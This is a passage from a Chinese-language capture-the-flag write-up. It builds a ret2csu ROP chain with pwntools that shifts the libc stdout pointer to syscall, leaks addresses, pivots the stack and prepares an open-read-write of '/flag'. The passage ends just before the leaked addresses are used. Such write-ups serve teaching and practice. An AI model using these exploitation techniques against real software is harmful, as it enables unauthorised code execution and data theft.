 ```python
csu1 = 0x40095A
'''
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15
retn
'''
csu2 = 0x400940
'''
mov     rdx, r15
mov     rsi, r14
mov     edi, r13d
call    ds:(__frame_dummy_init_array_entry - 600D90h)[r12+rbx*8]
add     rbx, 1
cmp     rbp, rbx
jnz     short loc_400940
'''
```

接下来我们就使用magic gadget将stdout偏移为syscall。这里有个细节，为了加上一个负数，这里需要将负数写成补码，方法如下：

```python
offset = (libc.sym['syscall'] + 27 - libc.sym['_IO_2_1_stdout_']) & 0xffffffffffffffff
```

为什么要加27呢？因为这个syscall执行前会有很多额外操作，实测会影响下面进程，于是这里直接偏移到`call syscall`这一条指令上来最为方便。另外，stdout在libc中的名称是`_IO_2_1_stdout_`!!!而且也有名叫stdout的symbol，千万不要弄混。这两者的区别尚不明确。

接下来，我们使用read读取一个字节来控制rax，结束后将下一段payload读取到另外一个位置，再次栈迁移。这是因为我们要在当前的payload末尾放入一个`/flag`字符串为接下来orw做准备。如果接着这个栈的位置使用会有连续性上的问题。这里我比较懒，直接再开一个空间放下一个栈好了。

```python
payload2 = flat([
    csu1,
    offset, stdout + 0x3d, 0, 0, 0, 0,	# stdout移动offset
    magic,
    csu1,
    0, 1, read_got, 0, elf.bss(0x800), 0x1,	# 修改rax
    csu2,
    0, 0, 1, stdout, 0x1, read_got, 0x8,	# 执行syscall -> write
    csu2,
    0, 0, 1, read_got, 0, base_stage + 0x400, 0x200,	# 将下一个payload读到base_stage + 0x400
    csu2, 
    0, 0, base_stage + 0x400 - 0x8, 0, 0, 0, 0, leave_ret,	# 迁移
    b'/flag\x00\x00\x00' # 字符串的位置在base_stage + 40 * 8
])
r.send(payload2)
r.send(b'\x00')	# 别忘了随便发
```

然后就是泄露地址，然后计算orw三个函数的真实地址：
